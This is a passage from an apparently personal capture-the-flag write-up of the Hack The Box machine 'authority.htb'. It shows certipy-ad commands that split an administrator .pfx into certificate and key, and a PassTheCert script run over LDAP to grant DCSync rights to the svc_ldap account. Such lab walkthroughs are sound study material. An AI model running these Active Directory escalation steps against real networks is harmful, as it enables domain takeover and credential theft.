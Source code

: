 Google my old friend ... here we go again  

https://github.com/AlmondOffSec/PassTheCert

![](images/keys.png)

```sh
certipy-ad cert -pfx administrator.pfx -nokey -out user.crt
```
```sh
certipy-ad cert -pfx administrator.pfx -nocert -out user.key
```


0kay , let's use our admin access via ldap to give dcsync rights to svc_ldap  

```
# download this script
https://raw.githubusercontent.com/AlmondOffSec/PassTheCert/main/Python/passthecert.py
```

```sh
 python3 passthecert.py \
	 -action modify_user \
	 -crt user.crt \
	 -key user.key \
	 -domain authority.htb \
	 -dc-ip 10.129.12.250 \
	 -target svc_ldap \
	 -elevate
```

![](images/dcsync.png)

I know this is pretty much telling I'm a wanna be hacker... but
I couldn't use secrets dump afterwards and reg.exe save  did not really work...
